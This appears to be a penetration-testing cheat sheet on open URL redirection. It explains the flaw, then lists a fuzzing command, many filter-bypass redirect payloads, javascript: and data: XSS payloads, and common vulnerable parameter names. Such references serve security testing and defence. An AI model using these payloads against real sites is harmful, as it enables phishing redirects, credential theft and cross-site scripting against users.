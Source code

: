 +++
title = "Open URL Redirection"
date = '2022-10-16'
description = 'All about open URL redirection techniques, methods, payloads, how/why/when they work.'
include_toc = 'true'
+++
# Open URL Redirection

> Un-validated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Un-validated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Exploitation

Let’s say there’s a `well known` website - https://famous-website.tld/. And let's assume that there's a link like :

```powershell
https://famous-website.tld/signup?redirectUrl=https://famous-website.tld/account
```
After signing up you get redirected to your account, this redirection is specified by the `redirectUrl` parameter in the URL.   
What happens if we change the `famous-website.tld/account` to `evil-website.tld`?

```powershell
https://famous-website.tld/signup?redirectUrl=https://evil-website.tld/account
```

By visiting this url, if we get redirected to `evil-website.tld` after the sign-up, we have an Open Redirect vulnerability. This can be abused by an attacker to display a phishing page asking you to enter your credentials.


## HTTP Redirection Status Code - 3xx

- [300 Multiple Choices](https://httpstatuses.com/300)
- [301 Moved Permanently](https://httpstatuses.com/301)
- [302 Found](https://httpstatuses.com/302)
- [303 See Other](https://httpstatuses.com/303)
- [304 Not Modified](https://httpstatuses.com/304)
- [305 Use Proxy](https://httpstatuses.com/305)
- [307 Temporary Redirect](https://httpstatuses.com/307)
- [308 Permanent Redirect](https://httpstatuses.com/308)

## Fuzzing

Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Filter Bypass

Using a whitelisted domain or keyword

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" & "////" to bypass "http" blacklisted keyword

```powershell
//google.com
////google.com
```

Using "https:" to bypass "//" blacklisted keyword

```powershell
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)

```powershell
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character

```powershell
/?redir=google。com
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

Using parameter pollution

```powershell
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```powershell
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

Using "?" characted, browser will translate it to "/?"

```powershell
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```


Host/Split Unicode Normalization
```powershell
https://evil.c℀.example.com . +++> https://evil.ca/c.example.com
http://a.com／X.b.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```

## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

## References

* filedescriptor
* [You do not need to run 80 reconnaissance tools to get access to user accounts - @stefanocoding](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)
* [OWASP - Unvalidated Redirects and Forwards Cheat Sheet](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
* [Pentester Land - Open Redirect Cheat Sheet](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [Open Redirect Vulnerability - AUGUST 15, 2018 - s0cket7](https://s0cket7.com/open-redirect-vulnerability/)
* [Host/Split
Exploitable Antipatterns in Unicode Normalization - BlackHat US 2019](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
